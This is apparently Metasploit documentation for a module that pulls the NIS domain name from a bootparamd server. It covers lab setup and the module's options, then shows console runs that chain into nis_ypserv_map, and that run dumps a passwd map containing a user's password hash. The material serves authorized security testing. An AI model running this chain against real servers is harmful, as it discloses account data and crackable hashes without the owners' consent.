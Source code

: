## Introduction

From the `bootparamd(8)` man page:

> bootparamd is a server process that provides information to diskless clients necessary for booting. It consults the /etc/bootparams file to find the information it needs.

The module documented within will allow a tester to disclose the NIS
domain name from a server running `bootparamd`. After knowing the domain
name, the tester can follow up with `auxiliary/gather/nis_ypserv_map` to
dump a map from a compatible NIS server (running as `ypserv`).

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

After that is done, install `bootparamd` however your OS provides it.

Make sure you add a client to the `bootparams` file, which is usually at
`/etc/bootparams`.

Here is an example `bootparams` file (courtesy of
[@bcoles](https://github.com/bcoles)):

```
clientname root=nfsserver:/export/clientname/root
```

You can read the `bootparams(5)` man page for more info.

Lastly, the client should be added to `/etc/hosts` if it isn't already
resolvable.

## Options

**PROTOCOL**

Set this to either TCP or UDP. UDP is the default due to `bootparamd`.

**CLIENT**

Set this to the address of a client in the target's `bootparams` file.
Usually this is a host within the same network range as the target.

**XDRTimeout**

Set this to the timeout in seconds for XDR decoding of the response.

## Usage

```
msf > use auxiliary/gather/nis_bootparamd_domain
msf auxiliary(gather/nis_bootparamd_domain) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > set client 192.168.33.10
client => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > run

[+] 192.168.33.10:111 - NIS domain name for host ubuntu-xenial (192.168.33.10) is gesellschaft
[*] Auxiliary module execution completed
msf auxiliary(gather/nis_bootparamd_domain) >
```

After disclosing the domain name, you can use
`auxiliary/gather/nis_ypserv_map` to dump a map from a compatible NIS
server.

```
msf auxiliary(gather/nis_bootparamd_domain) > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.33.10:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```
